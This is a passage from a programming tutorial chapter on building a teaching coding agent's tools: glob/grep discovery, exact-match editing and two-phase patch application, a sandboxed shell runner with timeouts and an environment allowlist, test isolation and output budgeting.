"Discovery" tools answer two questions: **which files exist** (glob: match paths against the patterns of 2.2.3) and **which lines match** (grep: search content with the regex of 2.2.7). Their shared risk is unbounded results — `**/*` in a real repository can return tens of thousands of paths, and one loose regex can match tens of thousands of lines. So "result paging" is not optional: limit truncation + a total count + advice on how to continue — all three are indispensable. On implementation choice: the teaching version scans directory by directory with in-process `Bun.Glob` (portable, zero-dependency, plenty for repositories of a few hundred files), while production OpenCode calls the ripgrep binary directly — respecting `.gitignore`, incremental parallel scanning, million-file performance. The trade-off itself is important knowledge: **teaching implementations prioritize comprehensibility; production implementations prioritize correctness at scale**.

**How this project implements it**

`src/tools/glob.ts` first declares the default exclusion set; scan results are filtered by path segment and then sorted:

```ts
// Directories excluded by default: dependency artifacts and VCS internals, almost never the Agent's target
export const EXCLUDED_DIRS = new Set(["node_modules", ".git", "dist", ".next", "target", "__pycache__"])

export function filterExcluded(paths: string[]) {
  return paths.filter((p) => !p.split("/").some((seg) => EXCLUDED_DIRS.has(seg)))
}
```

Verify the exclusion set against a real directory: put `src/a.ts`, `src/sub/b.ts`, and a `node_modules/dep.js` in a temp workspace, then scan everything with `**/*` (run from the `opencode-lab/` directory):

```ts
const registry = createToolRegistry()
registry.register(globTool)
const r = await registry.call("glob", { pattern: "**/*" }, { workspace: "/tmp/ws-glob-demo" })
console.log(r.content.text)
```

```text
Output (excerpt):
src/a.ts
src/sub/b.ts
```

(Three files clearly exist on disk, yet only two come back — `node_modules` was filtered out by path segment via `filterExcluded`; exclusion happens after scanning and before sorting.)

When limit truncates, the notice appears twice: at the tail of the text and in `meta`:

```ts
    const shown = filtered.slice(0, limit)
    const text =
      shown.join("\n") +
      (filtered.length > limit ? `\n...（共 ${filtered.length} 个匹配，仅显示前 ${limit} 个，可缩小模式或提高 limit）` : "")
```

`src/tools/grep.ts` factors file enumeration into `listWorkspaceFiles` (shared by glob and grep; optional subdirectory, boundary-checked first, and it skips `.db` files along the way), while the search loop runs the regex file by file, line by line, skipping large and binary files. First look at its self-description for the model (the `pattern` parameter's description doubles as a demo of 2.2.7's syntax):

```ts
export const grepTool: ToolDefinition = {
  name: "grep",
  description:
    '在工作区内按正则表达式搜索文件内容，返回 "路径:行号:行内容"。比 read+人工看快得多，优先用它定位代码。',
  risk: "low",
  parameters: {
    type: "object",
    properties: {
      pattern: { type: "string", description: "正则表达式，例如 function\\s+\\w+ 或 TODO" },
```

(`function\s+\w+` taken apart with 2.2.7: the `function` literal + `\s+` at least one whitespace + `\w+` one word — i.e. "find function definition lines".) The search loop itself:

```ts
      const abs = `${ctx.workspace}/${relPath}`
      const file = Bun.file(abs)
      if (file.size > MAX_SCAN_FILE_BYTES) continue // skip large files; see the truncation note for the notice
      const content = await file.text().catch(() => null)
      if (content === null || content.includes("\0")) continue
      scanned++
      for (const [i, line] of content.split("\n").entries()) {
        if (matches.length >= limit) {
          truncated = true
          break
        }
        if (regex.test(line)) matches.push(`${relPath}:${i + 1}:${line.trim().slice(0, 200)}`)
      }
```

The result format `path:line:content` (content trimmed to 200 chars) is exactly ripgrep's classic output format — the model has seen countless such lines in its training data and understands it natively. The regex is compiled outside the loop, and an invalid regex is caught by `try/catch` and converted into a structured error (one of the few justified try/catch spots in the chapter: `new RegExp`'s exception cannot be prevented by types — as 2.2.7 noted, the pattern is another layer of untrusted input).

Search the same workspace for `function` to see the format in action (run from the `opencode-lab/` directory):

```ts
const r = await registry.call("grep", { pattern: "function" }, { workspace: "/tmp/ws-glob-demo" })
console.log(r.content.text)
```

```text
Output (excerpt):
src/a.ts:1:export function greet(name: string) {
```

One result line, three pieces of information: which file, which line, what content — the model can fire a precise `read + offset/limit` follow-up straight away.

**Common pitfalls**

- **Symptom**: not excluding `node_modules`, so grep results are full of matches from dependencies. **Cause**: no default exclusion set. **Fix**: `EXCLUDED_DIRS` is standard equipment for discovery tools.
- **Symptom**: feeding the user/model-supplied pattern straight into `new RegExp` without catching. **Cause**: forgetting that the regex itself is another layer of "untrusted input". **Fix**: catch the exception and return "invalid regex: ..." (matching test).
- **Symptom**: truncating to the first N entries without a total. **Cause**: no budget loop. **Fix**: `meta.total` + the tail note "narrow the pattern or raise the limit", so the model knows how much match space remains.

**Self-check questions**

1. The three core differences between the teaching grep and ripgrep?
   > Key points: in-process file-by-file vs. native parallel scanning; ignoring `.gitignore` vs. respecting it; enough for teaching vs. million-file performance (the trade-off appears in the Section 6 questions).
2. What is the `meta.scanned` count for?
   > Key points: distinguishing "no match" from "nothing scanned" — with no matches the text reports "scanned N text files", letting the model decide whether to change the pattern or widen the path.
3. Does glob return ok:true or an error when nothing matches?
   > Key points: `ok:true` + "no files matching ..." — "no matches" is a normal query outcome, not a failure (matching test: "no matches returns an explanation, not an error").



*Figure 3-2: The nine tools' risk tiers and the browse → modify → verify work loop.*

### 5.4 Exact editing, unified diff, and patch application

**Concept**

First a piece of format background: **unified diff** is the family of formats output by `git diff` — a `-` prefix marks a deleted line, `+` an added line, and a leading space an unchanged context line; this chapter's patches use only the `-`/`+` pair.

Every line of an editing tool's implementation answers the same question: **what happens when the "old code" the model describes disagrees with the "real code" on disk?** Fuzzy matching (ignoring whitespace, finding the most similar passage) looks clever but is the source of incidents: editing the wrong place, mangling indentation, swapping in a similar-but-different code block. The teaching version enforces "fail rather than guess": edit requires `old_string` to occur exactly in the file (0 occurrences fails; multiple require explicit `replace_all`); apply_patch goes further, packing multiple add/modify/delete operations into one patch where any failed validation means **the whole patch does not take effect**. OpenCode's apply_patch uses the same line-level syntax but simplifies context lines — for a model, "generate a short block that matches exactly" has a far higher success rate than "generate a standard diff with context line numbers". The reason lies in how models generate: a model does **per-token probability sampling**, so demanding it "count line numbers correctly + reproduce context verbatim" pushes the success rate down with every constraint, whereas "copy the passage it just read" only tests copying ability. The expected number of rounds for short blocks + retry-on-failure is therefore actually lower than "generate a standard diff in one shot".

**An incident contrast for "fail rather than guess" (before/after)**. Suppose edit "helpfully" fuzzy-matched when the count was 0:

- **before (guessing edits)**: the model writes `old_string` from memory, off by one indent from the disk content — exact matches: 0; fuzzy matching picks the "most similar" passage — but the most similar is the same lines of code **inside another function**. Result: the wrong place is edited, the file's syntax stays valid, the tests stay green, and the error lurks until runtime; the original text is already overwritten, so recovery depends on snapshots.
- **after (fail rather than guess)**: `count === 0` → return "text to replace not found. read first to confirm the original (mind spaces and indentation)"; the model reads in the next round, gets the true content → retries with correct indentation → edits the right place. Trading one deterministic failure for "certainly editing correctly" costs far less in expectation than "silently editing wrong, then debugging".

**How this project implements it**

The division of labor between write and edit rests not only on different risk tiers; it is also written into the description the model sees (`src/tools/write.ts`) — "an existing file will be overwritten wholesale — use edit for local changes". One sentence of self-description makes the tool choice for the model:

```ts
  description: "创建或覆盖工作区内一个文件。会自动创建缺失的父目录。已有文件将被整体覆盖——局部修改请用 edit。",
```

The header comment of `src/tools/edit.ts` is three hard rules, each from a real Agent incident:

```ts
// Exact text replacement. Three hard rules (each from a real Agent incident):
// 1. old_string must occur, otherwise fail (guards against hallucinated edits)
// 2. Fail when it occurs multiple times and replace_all was not declared (guards same-named code blocks)
// 3. Fail when old === new (a meaningless write)
```

The core logic of counting and replacing:

```ts
    const content = await file.text()
    const count = countOccurrences(content, oldString)
    if (count === 0) return fail(`未找到要替换的文本。请先 read 确认原文（注意空格与缩进）`)
    const replaceAll = input.replace_all === true
    if (count > 1 && !replaceAll) {
      return fail(`old_string 匹配了 ${count} 处。请加入更多上下文使其唯一，或设置 replace_all=true`)
    }
```

`src/tools/apply-patch.ts` is **two-phase execution**: phase one (validate + build) computes all new content in memory — any failed step returns immediately, disk untouched; only phase two writes everything to disk:

```ts
    // Phase 1: validate + build new content (nothing written to disk)
    const writes: { path: string; abs: string; content: string }[] = []
    const deletes: { path: string; abs: string }[] = []
```

```ts
      const oldBlock = op.oldLines.join("\n")
      const first = content.indexOf(oldBlock)
      if (first === -1) {
        return fail(`Update File 失败：${op.path} 中未找到要替换的文本块。请先 read 确认内容与缩进`)
      }
      if (content.indexOf(oldBlock, first + 1) !== -1) {
        return fail(`Update File 失败：${op.path} 中该文本块出现多次。请扩大块范围使其唯一`)
      }
```

```ts
    // Phase 2: write everything to disk
    for (const w of writes) await Bun.write(w.abs, w.content)
    for (const d of deletes) await unlink(d.abs)
```

The parser `parsePatch` is an exported pure function (a line-level state machine: `*** Add File:` / `*** Update File:` / `*** Delete File:` switch the current operation, `+`/`-` prefixes classify lines), independently testable; it also enforces that in an update block every `-` line precedes the `+` lines, reporting a line-N-level format error when the order is broken.



*Figure 3-3: Two-phase atomic execution — phase one validates and builds all new content in memory, returning with zero side effects on any failure; phase two writes everything to disk.*

**Common pitfalls**

- **Symptom**: "helpfully" fuzzy-matching on 0 matches. **Cause**: trying to raise the success rate. **Fix**: fuzzy matching replaces the wrong place, irreversibly (before/after contrast above); the failure message guides the model to read first and retry, correcting hallucinated edits in one pass.
- **Symptom**: writing to disk while still parsing a combined patch. **Cause**: single-pass thinking. **Fix**: two phases separate "validate" from "take effect"; the test "combined patch atomicity" specifically verifies `good.ts` was never created.
- **Symptom**: `countOccurrences` missing the empty-string special case. **Cause**: boundary awareness. **Fix**: `indexOf` with an empty needle always matches, which would replace the whole file with the inserted string — the source has `if (needle === "") return 0`.

**Self-check questions**

1. How do edit's and apply_patch's Update-block error messages differ on "multiple matches"? Why?
   > Key points: edit says "matched N places ... or replace_all=true" (edit has a replace_all parameter); the patch says "widen the block to make it unique" (a patch block must be unique by construction).
2. What property does two-phase execution guarantee? When can it still stop halfway?
   > Key points: disk is touched only after all validation passes, and failure has zero side effects; in extreme cases an individual phase-two write IO failure can still leave partial effects (the teaching version accepts this residual risk; see 5.6).
3. Why is `old === new` rejected first of all?
   > Key points: it is a meaningless write; rejecting before path resolution saves one IO round and avoids giving the model a false "edit succeeded" signal.

### 5.5 Shell, subprocesses, stdout/stderr, exit codes, and timeouts

**Concept**

shell is the most capable and the riskiest tool: it hands a model-generated string to `bash -c` for execution (2.2.5 covered what that means — command injection is its nature, not a defect), so every piece of design around it is about **controlled execution**. Four elements:

- **stdout/stderr must be captured separately** (the two-pipe division of labor, Chapter 0 Section 5.4): success logs and error diagnostics flow apart;
- **the exit code is the only authoritative success/failure signal** (the numeric code of Chapter 0, 5.4): shouting "success" in the text does not count;
- **timeout must kill the process** (the signals of 2.2.4): `sleep 30` must not hang the whole Agent loop;
- **environment variables need an allowlist**: API keys may sit in the parent process; a child's default full inheritance is a leak channel.

One unobtrusive but important environment detail: `TERM: "dumb"`. TERM is the environment variable telling a child process "what terminal model you are on", and many programs use it to decide whether to emit **ANSI escape sequences** (control characters like `\x1b[31m` that colorize the terminal and move the cursor); `"dumb"` (a dumb terminal) makes programs believe the terminal supports no color, so they emit plain text — those escape characters are pure token noise for the model (Chapter 1, 2.2.1) and break output format parsing. The output format is also deliberate: `$ command / [exit N, ms] / stdout / stderr` compresses "what ran, how it ended, what it printed" into a shape the model reads at a glance.

**How this project implements it**

`src/tools/shell.ts` extracts the execution core into a standalone function `runShellCommand` (reused by the test tool); `Bun.spawn` opens all three pipes:

```ts
  const proc = Bun.spawn(["bash", "-c", command], {
    cwd,
    env: options.env ?? shellEnv(),
    stdout: "pipe",
    stderr: "pipe",
  })

  let timedOut = false
  const timer = setTimeout(() => {
    timedOut = true
    proc.kill()
  }, timeoutMs)

  const [stdout, stderr, exitCode] = await Promise.all([
    new Response(proc.stdout).text(),
    new Response(proc.stderr).text(),
    proc.exited,
  ])
  clearTimeout(timer)
```

The env allowlist has only four variables; everything else in the process (including future secrets) cannot reach the child:

```ts
export function shellEnv() {
  return {
    PATH: process.env.PATH ?? "/usr/local/bin:/usr/bin:/bin",
    HOME: process.env.HOME ?? "/home",
    LANG: process.env.LANG ?? "C.UTF-8",
    TERM: "dumb",
  }
}
```

Three rules normalize the outcome: timeout → `ok:false` with `exitCode` recorded as `null`; non-zero exit → `ok:false` but stdout/stderr preserved as-is (the model diagnoses from the output); formatting is produced uniformly by `formatShellOutcome` as `$ cmd / [exit 0, 12ms] / stdout: ...`. Note also the relay with Chapter 2: beyond the tool's own 30s timeout kill, the Registry's `maxOutputChars` truncates flood-scale output like `seq 1 100000` — two layers of protection, each guarding one end.

What this format really looks like when run — the minimal command `echo hi` (run from the `opencode-lab/` directory):

```ts
import { createToolRegistry } from "./src/tools/registry"
import { shellTool } from "./src/tools/shell"

const registry = createToolRegistry()
registry.register(shellTool)
const r = await registry.call("shell", { command: "echo hi" }, { workspace: process.cwd() })
console.log(r.content.text)
```

```text
Output (excerpt):
$ echo hi
[exit 0, …ms]
stdout:
hi
```

(The `…ms` slot holds the real elapsed time, varying run to run. What ran (the `$` line), how it ended (`[exit 0, …ms]`), what it printed (the `stdout:` section) — three things made clear by one format, readable at a glance.)



*Figure 3-4: The subprocess protocol — after Bun.spawn starts the child, stdout carries only results, stderr only diagnostics, and exitCode is the machine verdict of success or failure; the timer defaults to 30s with a 120s cap, kills on deadline and reports timedOut upstream, never waiting forever.*

**Common pitfalls**

- **Symptom**: spawning without `env`, letting the child inherit everything. **Cause**: inheritance is the default, and the leak surface goes unnoticed. **Fix**: allowlist via `shellEnv()`; the test "parent secrets do not enter the child" verifies it specifically.
- **Symptom**: setting `setTimeout(kill)` but never awaiting `proc.exited`. **Cause**: assuming the Promise returned by spawn settles by itself after kill. **Fix**: await stdout/stderr/exitCode together with `Promise.all`, so `clearTimeout` does not leak.
- **Symptom**: throwing a tool exception on a non-zero exit code. **Cause**: conflating "command failed" with "tool failed". **Fix**: a command failure is a **normal result** — return `ok:false` + error text carrying the exit code to the model (test: "non-zero exit code -> ok:false").

**Self-check questions**

1. What is `ShellOutcome.exitCode` after a timeout? Why?
   > Key points: `null` — the process was killed; the real exit code (killed-by-signal semantics) has no diagnostic value for the model, while `timedOut: true` is the fact.
2. What does `TERM: "dumb"` guard against?
   > Key points: subcommands emitting ANSI color/control sequences (expanded in the text: a dumb terminal makes programs give up coloring) — those characters are pure token noise for the model and can break output format parsing.
3. What is the command's cwd? Who guarantees it is valid?
   > Key points: `ctx.workspace` (the workspace root); it is a trusted value injected by the Registry/application layer and does not pass through `resolveWorkspacePath` — the path defense protects **file parameters**, while constraining the command itself belongs to the permission layer (Module 06).

### 5.6 Temp files, concurrent writes, and file locks

**Concept**

Multiple writers touching one file at the same time (concurrent tool calls, user and Agent editing simultaneously) produce lost updates: the later write clobbers the earlier one, and both sides believe they succeeded. The standard engineering options, in increasing complexity, each solve a specific scenario:

- **Atomic replacement** (write a temp file, then `rename`): walkthrough — a reader is reading `config.json` while the writer overwrites the same file in place; the reader may get a hybrid "first half new, second half old". Write `config.json.tmp` first and then `rename`: the OS guarantees that at the instant of renaming, the name points either to the complete old file or the complete new one — the reader sees old or new, never half of each.
- **File locks** (`flock`/lock files): walkthrough — two processes simultaneously "read balance → compute → write back"; the later write clobbers the earlier one and that update vanishes into thin air. A lock forces writers to queue: the second waits for the first to finish writing before reading.
- **Workspace-level isolation** (one independent copy per execution environment): walkthrough — two Agents modify the same repository at once, stepping on each other's intermediate state; give each an independent copy (container/worktree), invisible to each other, merged at the end.

The teaching version makes an **explicit scope decision**: no locks — because the teaching Agent calls tools sequentially, one process, one workspace, none of the three race windows above exist. It covers this knowledge point's core with two cheaper things: **temp-workspace isolation for tests** (`mkdtemp` gives each test a unique directory, no cross-pollution, deleted when done) and **apply_patch's two-phase disk write** (squeezing the "half-written file" window to a minimum, zero side effects on failure). Understanding "what scale needs what level of concurrency control" matters more than bolting on locks blindly.

**How this project implements it**

`test/helpers/workspace.ts` is the isolation foundation of all tool tests; `mkdtemp` guarantees globally unique directory names:

```ts
// Every test owns an isolated temp workspace; zero sharing between tests.
export async function createWorkspace(files: Record<string, string> = {}) {
  const dir = await mkdtemp(join(tmpdir(), "lab-ws-"))
  for (const [path, content] of Object.entries(files)) {
    const abs = join(dir, path)
    await mkdir(dirname(abs), { recursive: true })
    await writeFile(abs, content)
  }
  return {
    dir,
    async cleanup() {
      await rm(dir, { recursive: true, force: true })
    },
  }
}
```

Every test file follows the same pattern: `cleanups.push(ws.cleanup)` + a unified `afterAll` cleanup — no leftover temp files, and parallel test runs never stomp on each other. Write-side protection is carried by the two phases of `src/tools/apply-patch.ts` (core code cited in 5.4): phase one validates and builds entirely in memory, and only once the `writes`/`deletes` arrays are ready does it write to disk in sequence, compressing the inconsistency window to the few milliseconds of pure IO. Going to production, the next steps would be `write tmp → rename` atomic replacement and workspace snapshot rollback (Module 09's Git snapshot is exactly the snapshot route — expanded in Chapter 9; for now it is enough to know "rollback is another backstop route").

**Common pitfalls**

- **Symptom**: several tests sharing a fixed `/tmp/test-ws` directory. **Cause**: saving one fixture. **Fix**: parallel tests delete each other's files — failures are random and hard to reproduce; `mkdtemp` gets it right in one move.
- **Symptom**: believing a file lock makes things safe. **Cause**: locks provide mutual exclusion only, not boundary or atomicity. **Fix**: a lock cannot replace `resolveWorkspacePath`'s boundary checks, nor the two-phase "zero side effects on failure".
- **Symptom**: parallel `Promise.all` calls of write/edit hitting the same file. **Cause**: not realizing the teaching version assumes sequential calls. **Fix**: the teaching version is constrained to sequential execution; introducing parallel calls is part of Module 12's take-home challenge, where write conflicts must be solved first.

**Self-check questions**

1. Why can the teaching version skip file locks? List the preconditions.
   > Key points: single process, sequential tool calls, single workspace, no external writers assumed; break any one (parallel calls / multi-Agent / clustered) and locks or snapshots become necessary.
2. What makes `mkdtemp(join(tmpdir(), "lab-ws-"))` better than `tmpdir() + "/lab-ws"`?
   > Key points: each call yields a unique directory with a random suffix, naturally isolating concurrent tests; `cleanup`'s `rm force` backstops the teardown.
3. After the two-phase patch, what is still missing for "a truly atomic write"?
   > Key points: per-file atomic replacement (tmp + rename) and transactional semantics for the whole patch (rolling back already-written files on failure) — the teaching version accepts this boundary and relies on the snapshot module as backstop.

### 5.7 Toolifying LSP, formatters, and the test runner

> **30-second background: what is LSP.** LSP (Language Server Protocol) is the communication standard between an editor and a "language analysis service": the editor (client) tells the language server (an independent process) "file X was opened, these lines changed", and the server pushes back **diagnostics** like "type error on line 3". The live TypeScript errors and go-to-definition in VS Code all run on it. Only one property matters for this chapter: **a language server is a long-lived process** — started once, continuously receiving file changes, incrementally pushing diagnostics; not a "one question, one answer" command.

**Concept**

Beyond reading and writing files, the Agent needs to "see the health of the code": compile errors, type errors, formatting drift, test failures. What these capabilities share is a **language infrastructure** behind each of them (LSP servers, formatter binaries, test runners) — the integration path already exists, and rebuilding it is neither possible nor necessary. Toolifying therefore means writing an **adapter** layer (Chapter 1, 2.2 covered the adapter pattern: translate A's format into B's format), with three separable duties: (1) **normalize input** — the model supplies tool parameters ("run the tests"), the adapter translates them into the underlying command; (2) **normalize output** — the underlying output (tens of thousands of log lines) is compressed into a model-readable summary; (3) **manage the lifecycle** — an LSP server must be started, must push diagnostics per file version, and must be shut down (see the background box above); the adapter handles all of that for the model, which sees only "the diagnostics".

The teaching version implements the test tool as the exemplar: it reuses shell's execution core but swaps in a different output policy — **keep only the last 60 lines**, because test failure summaries (failing case names, the expect diff, the summary lines) almost always live at the tail of the output. LSP and formatters are left as extension challenges in the teaching version (see the blueprint's extension items for the `gopls`/`tsserver` integration ideas), but the pattern of "same execution core, different output policy" is universal.

**How this project implements it**

`src/tools/test-runner.ts` is only 51 lines in total, showing the adapter's complete shape. The default command and the tail line count are constants; both parameters are optional (`required: []` — the schema subset allows an empty required list):

```ts
const DEFAULT_COMMAND = "bun test"
const TAIL_LINES = 60

// Runs the project's tests and normalizes the result. Difference from shell:
// only the tail is emitted (failure summaries usually come last), keeping long
// test logs from swallowing the context.
```

Execution directly reuses shell's execution core:

```ts
    const command = typeof input.command === "string" && input.command.trim() !== "" ? input.command : DEFAULT_COMMAND
    const timeoutMs = typeof input.timeoutMs === "number" ? input.timeoutMs : 120_000
    const outcome = await runShellCommand(ctx.workspace, command, { timeoutMs })
```

The output differentiation is this tool's soul — when `tailLines` trims, it explicitly reports how many lines were omitted, so the model knows the output is incomplete:

```ts
function tailLines(text: string, lines: number) {
  const all = text.trimEnd().split("\n")
  if (all.length <= lines) return text.trimEnd()
  return `...(前面省略 ${all.length - lines} 行)...\n${all.slice(-lines).join("\n")}`
}
```

The success/failure semantics are also noteworthy: a failing test run (non-zero exit) returns `ok:false` + "tests failed (exit code N)", while the output body is preserved verbatim — `bun test`'s failing case names are inside it, and the test "output contains the failing case name on test failure" verifies the model really gets key clues like `will-fail`. The tool also proves itself in a real scenario: the test "runs on a real Bun test project" has the tool run a temporarily generated `math.test.ts` and asserts the output contains `1 pass`.

**Common pitfalls**

- **Symptom**: stuffing the full test log back into the context. **Cause**: reusing shell without differentiation. **Fix**: tail it with `TAIL_LINES = 60`; the test asserts the line count is `< 100`.
- **Symptom**: writing a separate spawn/timeout set for the test tool. **Cause**: not recognizing "execution core" and "output policy" as two layers. **Fix**: reuse `runShellCommand` and differentiate only the output — the minimal practice of the adapter pattern.
- **Symptom**: starting a language server on every call of an LSP tool. **Cause**: not understanding that LSP is a long-lived process (see the background box). **Fix**: the server must stay resident and push diagnostics incrementally per file version — one reason the teaching version leaves it as an extension challenge.

**Self-check questions**

1. What is the essential difference between the test tool and the shell tool?
   > Key points: the same execution core (`runShellCommand`), a different output policy (last 60 lines + test-flavored error messages) and defaults (`bun test`, 120s).
2. Why is an empty `required` array still valid?
   > Key points: the validator only checks "are the types of the present fields correct"; with `required` absent there are no mandatory fields, and both parameters have defaults as backstop.
3. What must a production formatter tool consider?
   > Key points: formatting **rewrites files** (write conflicts with edit), trigger timing (before/after save), and the output need only report a diff summary — context cost remains the through-line.

### 5.8 Tool output compaction and context cost control

> 📊 Figure: The three-way triage of tool output (verbatim / truncated / summarized) is shown in Figure 8-4 of Chapter 8.

**Concept**

The context window is the Agent's scarcest resource (Chapter 1, 2.2.1), and tool results are its biggest consumer. Cost control must be a **three-layer budget**, and each missing layer has a real failure scenario:

- **Layer 1: in-tool budget** — read's offset/limit window, glob/grep limits, grep skipping 512KB files: no large output is produced at the source. Failure when missing: without windowing, the model reads a 50MB log whole into context to find one function; a single call eats most of the window, and the rest of the conversation "loses its memory".
- **Layer 2: continuation hints** — when truncation happens, attach instructions like "continue with offset=N" or "narrow the path". Failure when missing: truncated but never told "there is more, here is how to continue" — the model believes what it sees is everything, concludes from half the information, or blindly repeats the same large query.
- **Layer 3: Registry backstop truncation** (Chapter 2's `maxOutputChars`) — guarding against the accident of a tool author forgetting the budget. Failure when missing: some tool forgets its limit and the output of one `seq 1 100000` floods straight into history, discovered only once the session is beyond saving; with the backstop, "forgetting" costs no more than a mid-stream truncation, never a blown window.

The principle is **compaction is not information loss**: the total count (`meta.total`), the original length (`originalLength`), and the scan statistics (`meta.scanned`) must all be preserved — the model needs this metadata to plan its next step.

**How this project implements it**

Layers 1 and 2 are everywhere in the browsing trio. `src/tools/read.ts` attaches a precise continuation instruction after windowing:

```ts
    if (shownEnd < total) {
      numbered.push(`...（共 ${total} 行，当前显示第 ${offset}—${shownEnd} 行。用 offset=${shownEnd + 1} 继续读取）`)
    }
```

An 11-line file with `limit=3` — the window notice really looks like this (run from the `opencode-lab/` directory):

```ts
const r = await registry.call("read", { path: "src/config.ts", limit: 3 }, { workspace: "/tmp/ws-read-demo" })
console.log(r.content.text)
```

```text
Output (excerpt):
    1| export const name = "lab"
    2| 
    3| export const version = 1
...（共 11 行，当前显示第 1—3 行。用 offset=4 继续读取）
```

The notice even computes the next-hop parameter `offset=4` for the model; copying it continues the read — exactly the "Layer 2: continuation hints" from the concept paragraph above. The lower the friction, the steadier the loop.

When `src/tools/grep.ts` reaches the limit it likewise offers three ways out:

```ts
    const text =
      matches.join("\n") +
      (truncated ? `\n...（达到 limit=${limit} 上限。可缩小 path 范围、更精确的 pattern，或提高 limit）` : "")
```

The tailing of `src/tools/test-runner.ts` (`tailLines` cited in 5.7) is "compaction by semantic structure" — choosing by "the passage with the highest information density" rather than by character count. The layer-3 backstop lives in `src/tools/registry.ts`'s `applyTruncation`: even if a tool forgets its budget, the 20000-character hard cap kicks in, and `meta.truncated` + `originalLength` keep truncation discoverable. The test "browsing tool loop: glob -> read -> grep" verifies the payoff of the budget design from the other side: the combination of three small-result queries locates the target code faster than any single full dump.

**Common pitfalls**

- **Symptom**: truncating without continuation clues. **Cause**: treating compaction as deletion. **Fix**: pair every truncation with "how to query next" (offset=N / narrower path / higher limit) so the model converges instead of spinning.
- **Symptom**: believing compaction means cutting characters. **Cause**: not choosing by information density. **Fix**: tail test logs, trim grep results to 200 chars per line, window read by line numbers — all compaction by structure: keep density, drop noise.
- **Symptom**: relying on Registry truncation as the primary means. **Cause**: layers inverted. **Fix**: backstop truncation is accident insurance; the primary budget must live inside the tool, or the model receives "chopped off mid-stream" instead of "designed" results.

**Self-check questions**

1. Who implements each of the three budget layers? What does each guard?
   > Key points: in-tool (the windows and limits of read/glob/grep/test) guards against excess at the source; continuation hints guard against blind retries; the Registry's `maxOutputChars` guards against tool authors forgetting (the three failure scenarios above).
2. Why does read's window notice hand over `offset=${shownEnd + 1}` instead of letting the model compute it?
   > Key points: the next-hop parameter is computed and placed into the notice, so copying it succeeds — the lower the continuation friction, the steadier the loop.
3. What are grep's three `meta` fields? What decision does each serve?
   > Key points: `matches` (found anything), `scanned` (was the scan wide enough), `truncated` (is the result incomplete) — the model uses them to decide whether to change the pattern, widen the scope, or raise the limit.

## 6. Reading the OpenCode source

| File | Reading focus | Think about |
|---|---|---|
| `packages/core/src/filesystem.ts` | How are workspace path validation and permission checks layered? | How does it compare with this chapter's triple check in `workspace.ts`? |
| `packages/opencode/src/tool/read.ts` | Line-number format, truncation notices, large-file policy | Why does it show an excerpt rather than the whole file by default? |
| `packages/opencode/src/tool/edit.ts` | Unique-match and replace_all semantics | How is the hint worded when multiple matches fail? |
| `packages/opencode/src/tool/apply_patch.ts` | Patch format and fuzzy matching | Why did the teaching version cut fuzzy matching? What is the risk? |
| `packages/opencode/src/tool/shell.ts` | Timeouts, background tasks, PTY | How are environment variables passed to the child process? |
| `packages/core/src/ripgrep.ts` | The wrapper calling the rg binary directly | Performance/correctness differences between rg and the JS scan? |

## 7. Minimal walkthrough

### 7.1 Studio demo units for this chapter

> 💡 Launch the interactive playground: `cd opencode-lab && bun src/index.ts studio`, open `http://localhost:7800` in the browser, and pick this chapter to run the units below. Each unit lets you edit code, click ▶ to run and see real output, and click 🔍 Core to view the core source implementation.

| # | Unit | Demo content | Lesson anchor | Core source |
|---|---|---|---|---|
| 1 | `setup-workspace` | Setup Workspace — write creates 3 files | §5.1 | `tools/write.ts` |
| 2 | `read` | Read — line-numbered output | §5.2 | `tools/read.ts` |
| 3 | `glob-grep` | Glob + Grep — file search | §5.3 | `tools/grep.ts` |
| 4 | `edit` | Edit — precise string replacement | §5.4 | `tools/edit.ts` |
| 5 | `apply-patch` | Apply Patch — add & update | §5.4 | `tools/apply-patch.ts` |
| 6 | `shell` | Shell — execute & capture | §5.5 | `tools/shell.ts` |
| 7 | `path-safety` | Path Safety — escape rejected | §5.1 | `core/workspace.ts` |

This chapter produces:

```text
src/core/workspace.ts        # path safety (gatekeeper of all file tools)
src/tools/read.ts            # risk: low
src/tools/glob.ts            # risk: low
src/tools/grep.ts            # risk: low
src/tools/write.ts           # risk: medium
src/tools/edit.ts            # risk: medium
src/tools/apply-patch.ts     # risk: medium
src/tools/shell.ts           # risk: high
src/tools/test-runner.ts     # risk: medium
```

The gatekeeper's core (`workspace.ts`):

```ts
const abs = resolve(workspace, inputPath)
if (escapes(workspaceReal, abs)) return { ok: false, error: `路径越界: ...` }
const absReal = await realPathOrNull(abs)   // resolve symlinks
if (absReal !== null && escapes(workspaceReal, absReal)) return { ok: false, error: `符号链接越界...` }
```

What a patch looks like (model-generated input) — the whole patch is wrapped in `*** Begin Patch` / `*** End Patch`; the three `***` headers declare the Update (modify) / Add (create) / Delete (remove) operations, and the leading `-`/`+` mark which lines to remove and which to add; `parsePatch` is the pure function that parses this format line by line (5.4):

```text
*** Begin Patch
*** Update File: src/app.ts
-const version = 1
+const version = 2
*** Add File: NOTES.md
+Created by the agent
*** End Patch
```

## 8. Exercises

1. **Task 1**: hand-craft a symlink pointing into `/tmp` inside a temp workspace, read it with the read tool, and confirm it is rejected; then look at how the test "symlink pointing outside the workspace is rejected" builds its fixture.
2. **Task 2**: write a file containing 3 copies of the same code block; try edit (without replace_all) and apply_patch (single block) and observe the two "multiple matches" error messages; then fix them — edit with a longer old_string, patch with a larger block.
3. **Task 3**: have the `shell` tool run `echo $PATH`, then deliberately add/remove a variable in the `shellEnv()` allowlist and observe the child's environment change; explain why you cannot just pass `process.env`.

## 9. Implementation steps

1. **`workspace.ts` first**: no file tool gets written before the boundary check exists. `realPathOrNull` separates "does not exist" (writing a new file) from "exists but out of bounds".
2. **The browsing trio**: read defends first (existence/size/binary), then windows; glob uses `Bun.Glob.scanSync` + the excluded directories; grep reuses glob's file enumeration (`listWorkspaceFiles` supports subdirectory filtering and is boundary-checked first).
3. **write/edit**: write is "whole-file semantics", edit is "exact replacement semantics"; the description states the division of labor ("use edit for local changes") to reduce model misuse.
4. **apply_patch in two phases**: the parser `parsePatch` is a pure function (a line-level state machine, exported and testable); execution builds all new content in memory first (returning on any failed step) and writes to disk only after success — the test specifically verifies "zero side effects when a combined patch fails".
5. **shell**: extract `runShellCommand` (independently reusable and testable); timeout via `setTimeout(proc.kill)`; env allowlist `shellEnv()`.
6. **test-runner**: reuse shell execution, differentiate the output (last 60 lines) — demonstrating "same execution core, different output policy".

## 10. Testing and debugging

```bash
bun test test/core/ test/tools/browse.test.ts test/tools/modify.test.ts test/tools/shell.test.ts
```

| File | Key scenarios |
|---|---|
